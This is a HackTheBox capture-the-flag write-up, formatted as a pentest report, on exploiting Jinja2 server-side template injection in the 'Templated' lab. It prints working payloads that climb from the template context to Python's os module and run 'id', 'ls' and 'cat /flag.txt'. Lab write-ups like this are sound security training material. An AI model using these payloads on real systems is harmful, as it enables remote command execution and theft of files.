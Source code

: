 **Pentest Report — Templated**

**Platform:** HackTheBox

**Analyst:** Kerneth

**Date:** 17/09/2025

**Mission Status:** ✅ Successfully Completed

---

### 🎯 Executive Summary

The following site tested is Templated. It's a website under construction. There is nothing on it.


![Q0](images/construction_templated.png)


### 🛠️ Scope & Methodology

* Nmap
* Gobuster
* BurpSuite – interception & endpoint discovery  
* Manual input fuzzing – testing injection points  
* Jinja2 SSTI payloads – template injection exploitation  
* OS command execution – confirmation of RCE

### 🔍 Findings


| Vulnerability         | Impact       | Severity |
| --------------------- | ------------ | -------- |
| SSTI in Personal Info | Leads to RCE | Critical |


The first thing that we can see is that the template is jinja2.


If I inject {{7*7}} it returns 49, so it's effectively a SSTI


![Q2](images/49_templated.png)


### 🧩 Exploitation Walkthrough

The next thing is to use this SSTI into a RCE.

I have tested with this code, in the first time with "id"

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("id").read() }}

👉 What it does:

  self._TemplateReference__context → accesses the internal context of the Jinja engine.

  .cycler → a Jinja object that holds references to internal functions.

  .__init__.__globals__ → climbs up to the Python global variables accessible in this context.

  .os → retrieves the os module from those globals.

  .popen("id").read() → executes the system command id and reads its output.


![Q6](images/id_templated.png)


We can see the id, so it worked.

The next step is to find the flag.

I used 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls").read() }}

to see what we've got in the / directory


![Q7](images/popen_templated.png)


And 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat /flag.txt").read() }}

to see what is the flag.


![Q8](images/flag_templated.png)



### ✅ Conclusion

The engagement against **templated** demonstrated a critical vulnerability in the web application:  
a **Server-Side Template Injection (SSTI)** in the “Personal Information” field, which escalated to a full **Remote Code Execution (RCE)** on the host.  

Through controlled exploitation, we confirmed the ability to execute arbitrary system commands and retrieve sensitive files (including the target flag).  

**Impact:**  
An attacker with this access could completely compromise the confidentiality, integrity, and availability of the application and its data.  

**Mission outcome:**  
The target was successfully compromised, mission objectives achieved.  


